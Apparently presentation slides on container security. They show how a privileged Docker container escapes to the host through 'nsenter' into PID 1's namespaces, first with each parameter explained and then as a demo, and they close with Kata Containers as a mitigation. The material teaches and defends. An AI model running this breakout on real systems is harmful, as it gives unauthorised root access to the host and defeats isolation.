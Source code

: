 ## Privileged Containers

Privileged containers have access to all syscalls

If able to start containers, just leave the isolation:

```bash
docker run -it \
    --privileged \
    --pid=host \
    alpine \
	nsenter -t 1 -m -u -n -i sh
```

Parameters of `nsenter`:

- Work with namespaces (nsenter)
- Uses process tree of host (--pid=host)
- Get namespace from PID 1 (-t 1)
- Enter namespaces required for shell (-m -u -n -i)

--

## Demo: Privileged Containers

Running privileged containers:

```bash
docker run -d --rm --privileged docker:stable-dind
```

Host breakout from privileged container:

```bash
docker run --rm --privileged --pid=host -it alpine:3.8 \
    nsenter -t 1 -m -u -n -i sh
```

---

## Taming Privileges Containers

### For example

![](images/katcontainers.svg) <!-- .element: style="width: 35%" -->

Isolates containers in a lightweight VM

Configured as a container runtime (instead of `runc`)